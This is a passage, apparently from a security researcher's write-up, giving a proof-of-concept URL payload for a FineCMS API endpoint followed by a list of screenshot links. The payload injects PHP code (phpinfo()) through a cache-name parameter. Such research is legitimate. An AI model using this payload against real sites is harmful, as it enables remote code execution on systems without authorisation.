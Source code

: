 payload:

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=cache%20name=MEMBER.1'];phpinfo();$a=['1
```

![image.png-68kB][19]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/p6rzdl3hn4qma2xfdnnjcvmf/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k3pahve44l13aaq0l3tv804k/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tdhgnnhca43s7luif2z0qt19/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9uh4ll2w53s9ftnhdfaf5jv4/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dwwtyb3okbfl0ohedg3q1z4h/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pt5zq0ezl29las6zgjmh7r5/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n7dbtbupmw8ukwwenp4lipjj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i8d3nn39drj9to4x24yzed3q/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y5pf6ackfl3e6hgodigz9icb/image.png
  [19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png